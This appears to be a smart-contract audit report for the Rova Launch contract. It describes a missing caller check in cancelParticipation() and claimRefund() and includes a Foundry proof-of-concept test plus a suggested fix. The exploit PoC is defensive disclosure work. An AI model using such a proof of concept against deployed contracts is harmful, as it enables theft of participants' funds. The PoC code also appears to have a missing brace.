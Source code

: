 Zealous Black Coyote

High

# Attacker can cancel any participation and receive refunds

### Summary

In the `cancelParticipation()` function, the protocol only verifies that `request.userId == info.userId`, but does not verify that `info.userAddress == msg.sender`, which could allow an attacker to cancel any participation and receive refunds.
The function `claimRefund()` has the same issue.

### Root Cause

https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L404-L466

The function `cancelParticipation()` allows users to cancel their participation and receive a refund. If `userTokenAmount - info.tokenAmount == 0`, the protocol will remove the `userId` from `userTokens`, and then transfer the payment currency from the contract to `info.userAddress`. 
```solidity
     // Get total tokens requested for user for launch group
        EnumerableMap.Bytes32ToUintMap storage userTokens = _userTokensByLaunchGroup[request.launchGroupId];
        (, uint256 userTokenAmount) = userTokens.tryGet(request.userId);
        if (userTokenAmount - info.tokenAmount == 0) {
            // If total tokens requested for user is the same as the cancelled participation, remove user from launch group
            userTokens.remove(request.userId);
        }
// Transfer payment currency from contract to user
        uint256 refundCurrencyAmount = info.currencyAmount;
        IERC20(info.currency).safeTransfer(info.userAddress, refundCurrencyAmount);

        // Reset participation info
        info.tokenAmount = 0;
        info.currencyAmount = 0;

```

However, the protocol only validates that the `userId` matches, but it does not verify if `info.userAddress == msg.sender`. A bad actor can exploit this and cancel any user's participation to receive a refund.
```solidity
       // Validate userId is the same which also checks if participation exists
        if (request.userId != info.userId) {
            revert UserIdMismatch(info.userId, request.userId);
        }

```

### Internal Pre-conditions

There are some participants.

### External Pre-conditions

None

### Attack Path

1. Alice participates in a launch group.  
2. Bob notices Alice's participation and calls the `cancelParticipation()` function with the same information Alice used to participate, but with `userAddress: Bob`.  
3. The protocol transfers the payment currency from the contract to Bob.

### Impact

A bad actor can get a refund from another participant.

### PoC

Put the following POC code into the Launch.CancelParticipation.t.sol contract, then run forge test --match-test "test_CancelParticipation2" -vvv
```solidity
function _createCancelParticipationRequest2() internal view returns (CancelParticipationRequest memory) {
        return CancelParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: testLaunchParticipationId,
            userId: testUserId,
            userAddress: user2,
            requestExpiresAt: block.timestamp + 1 hours
        });

function test_CancelParticipation2() public {
        // Prepare cancel participation request
        CancelParticipationRequest memory cancelRequest = _createCancelParticipationRequest2();
        bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));

        ParticipationInfo memory info = launch.getParticipationInfo(cancelRequest.launchParticipationId);
        assertEq(info.tokenAmount, 1000 * 10 ** 18);
        assertEq(info.currencyAmount, 1000 * 10 ** 18);

        vm.startPrank(user2);

        // Update participation
        launch.cancelParticipation(cancelRequest, cancelSignature);
        vm.stopPrank();

        // Verify update
        ParticipationInfo memory newInfo = launch.getParticipationInfo(cancelRequest.launchParticipationId);
        assertEq(newInfo.tokenAmount, 0);
        assertEq(newInfo.currencyAmount, 0);

     }


```



### Mitigation

Verify that `info.userAddress == msg.sender`.
```solidity
   if (msg.sender != info.userAddress) {
            revert UserAddressMismatch(info.userAddress, msg.sender);
        }
```